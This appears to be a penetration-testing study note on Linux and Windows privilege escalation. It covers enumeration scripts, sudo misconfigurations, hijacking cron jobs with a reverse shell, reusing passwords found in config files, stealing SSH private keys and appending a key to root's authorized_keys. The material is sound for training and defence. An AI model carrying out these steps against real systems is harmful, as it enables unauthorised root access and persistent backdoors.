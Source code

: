 ### Checklist
* [Hacktricks](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist) has a very nice checklist to follow
* Also [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#checklists) is a good option

### Enumeration Scripts
* Linux
	* [LinEnum](https://github.com/rebootuser/LinEnum)
	* [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
* Windows
	* [Seatbelt](https://github.com/GhostPack/Seatbelt)
	* [JAWS](https://github.com/411Hall/JAWS)
* [PEASS-ng](https://github.com/carlospolop/PEASS-ng)

```bash
./linpeas.sh
...SNIP...

Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEYEND:
  RED/YELLOW: 99% a PE vector
  RED: You must take a look at it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)
  LightMangenta: Your username


====================================( Basic information )=====================================
OS: Linux version 3.9.0-73-generic
User & Groups: uid=33(www-data) gid=33(www-data) groups=33(www-data)
...SNIP...
```

### Kernel Exploits
* When encountering old systems
* Windows / Linux

### Vulnerable Software
* `dpkg -l` or look at the `C:\Program Files` 
* Search for public exploits

### User Privileges
* See what users have access to
	* Maybe we are allowed to run commands as root
* Check privileges

```bash
$ sudo -l

[sudo] password for user1:
...SNIP...

User user1 may run the following commands on ExampleServer:
    (ALL : ALL) ALL
```

```bash
$ sudo -l

    (user : user) NOPASSWD: /bin/echo
```

* `NOPASSWD` shows that we can execute `/bin/echo` without a password as user `user`

```bash
$ sudo -u user /bin/echo Hello World!

    Hello World!
```

* [GTFOBins](https://gtfobins.github.io/) contains a list of commands to exploit such binaries to get sudo privileges
	* The equivalent for [Windows](https://lolbas-project.github.io/#)

### Scheduled Tasks
* Windows and Linux offer scripts running at a specific time interval to carry out tasks
	* Anti-virus scans for example
* To take advantage of this
	1. Add new scheduled tasks/cron jobs
	2. Trick them to execute a malicious software
* Check if we are allowed to add new schedules
	* Linux
		* `Cron Jobs`
			1. `/etc/crontab`
			2. `/etc/cron.d`
			3. `/var/spool/cron/crontabs/root`
		* If we can write to a directory called by a cron job
			* Write a bash script with a reverse shell command
			* Cron will execute it

### Exposed Credentials
* Look for files we can read for any exposed credentials
	* Configs, logs, and user history (bash_history in Linux and PSReadLine in Windows)
* The enumeration scripts normally look for such files

```bash
...SNIP...
[+] Searching passwords in config PHP files
[+] Finding passwords inside logs (limit 70)
...SNIP...
/var/www/html/config.php: $conn = new mysqli(localhost, 'db_user', 'password123');
```

* Also when we find passwords, we should check for `password reuse`
	* password123

```bash
$ su -

Password: password123
whoami

root
```

### SSH Keys
* If we have read access over `.ssh` directory
	* We can gain the private/public key pair of a user
	* Copy it to our machine and use the `-i` parameter to log in with it

```bash
$ vim id_rsa
# Change the files permission or the server may prevent login on lax permissions
$ chmod 600 id_rsa
$ ssh user@10.10.10.10 -i id_rsa

root@remotehost#
```

* If we have write access to a users `/.ssh/` directory
	* Place our own public key in there
	* Only works if we already gained control over that user

```bash
$ ssh-keygen -f key

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): *******
Enter same passphrase again: *******

Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:...SNIP... user@parrot
The keys randomart image is:
+---[RSA 3072]----+
|   ..o.++.+      |
...SNIP...
|     . ..oo+.    |
+----[SHA256]-----+
```

* Copy the public key to `/root/.ssh/authorized_keys` 

```bash
$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
```

```bash
$ ssh root@10.10.10.10 -i key

root@remotehost#
```
